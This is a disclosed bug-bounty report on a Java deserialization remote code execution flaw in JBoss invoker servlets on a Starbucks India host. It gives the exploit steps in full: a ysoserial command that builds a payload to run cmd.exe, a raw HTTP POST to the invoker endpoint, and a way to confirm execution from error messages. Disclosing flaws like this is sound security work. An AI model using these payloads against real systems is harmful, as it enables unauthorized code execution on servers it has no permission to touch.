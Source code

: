 # Java Deserialization RCE via JBoss JMXInvokerServlet/EJBInvokerServlet on card.starbucks.in

## Report Details
- **Report ID**: 153026
- **URL**: https://hackerone.com/reports/153026
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-21T23:04:33.767Z
- **Disclosed**: 2017-02-03T22:47:45.617Z

## Reporter
- **Username**: meals
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
I found an open JMXInvokerServlet/EJBInvokerServlet and normally I should be able to get a shell just by doing that. However I think due to some egress filtering on the box I've been having issues getting a shell to run.

Invokers: https://card.starbucks.in/invoker/EJBInvokerServlet and https://card.starbucks.in/invoker/JMXInvokerServlet

Command to output serialized data to a file:
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 'cmd.exe' > serialdata
{F106535}

This puts the serialized data for executing cmd.exe into a file that I can then paste into burp.

Create a new burp repeater tab and paste in the following (running on https):

POST /invoker/EJBInvokerServlet HTTP/1.1
Host: card.starbucks.in
Accept: */*
Accept-Language: en
ContentType: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledInvocation
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0

Then right click an select "Paste from file"
{F106537} 

Hit Go and our burp repeater tab should look like the following:
{F106538} 

You will notice I am searching for the string "cannot find" in the response tab. If a file is not found on the windows host it will return saying "The system cannot find the file specified" as well as another variation of that.  Since the first request is for cmd.exe which IS found on the system this error is not present. This can also be verified by running telnet, ftp, calc.exe.

The following will produce a "The system cannot find the file specified" error:
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 'fakefile.exe' > serialdata

Burp Output:
{F106541} 


This is proving that files are being run on the system.

## Attachments
No attachments
